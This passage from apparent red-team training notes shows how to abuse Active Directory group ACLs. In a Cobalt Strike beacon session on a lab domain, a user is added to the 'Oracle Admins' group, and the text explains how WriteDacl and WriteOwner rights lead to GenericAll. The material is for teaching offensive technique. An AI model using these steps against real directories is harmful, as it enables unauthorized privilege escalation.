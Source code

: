 If we have the ACL on a group, we can add and remove members.

```
beacon> run net group "Oracle Admins" bfarmer /add /domain

The request will be processed at a domain controller for domain dev.cyberbotic.io.

The command completed successfully.

beacon> run net user bfarmer /domain

The request will be processed at a domain controller for domain dev.cyberbotic.io.

User name                    bfarmer
Full Name                    Bob Farmer

[...snip...]

Global Group memberships     *Domain Users         *Roaming Users        
                             *Developers           *Oracle Admins
```

There are other interesting DACLs that can lead to similar abuses. For instance with **WriteDacl** you can grant **GenericAll** to any principal. With **WriteOwner**, you can change the ownership of the object to any principal which would then inherit GenericAll over it.